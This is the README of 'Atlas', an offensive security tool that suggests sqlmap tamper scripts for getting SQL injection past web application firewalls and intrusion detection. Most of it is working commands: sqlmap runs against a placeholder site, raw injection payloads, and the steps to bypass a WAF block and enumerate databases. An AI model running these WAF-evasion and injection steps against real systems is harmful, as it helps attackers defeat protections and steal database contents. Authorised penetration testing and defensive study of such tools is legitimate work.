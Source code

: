 Atlas - Quick SQLMap Tamper Suggester (beta v.)
---

__Atlas__ is an open source tool that can suggest sqlmap tampers to bypass WAF/IDS/IPS, the tool is based on returned status code.

![atlas_main](https://i.imgur.com/G2bXF3A.png)


Screen
---
![atlas_run](https://i.imgur.com/I6cXSKd.png)

Installation
---
```
$ git clone https://github.com/m4ll0k/Atlas.git atlas
$ cd atlas
$ python atlas.py
```

Usage
---
```
$ python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --dbms=mysql --random-agent -v
```

Example 
---
1. Run SQLMap:
```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```
![sqlmap](https://i.imgur.com/XP39Rqz.png)

```Price_ASC') AND 8716=4837 AND ('yajr'='yajr``` is blocked by WAF/IDS/IPS, now trying with Atlas:
```
$ python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```
![atlas_succ](https://i.imgur.com/U6qEnXp.png)

At this point:

```
$ python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```
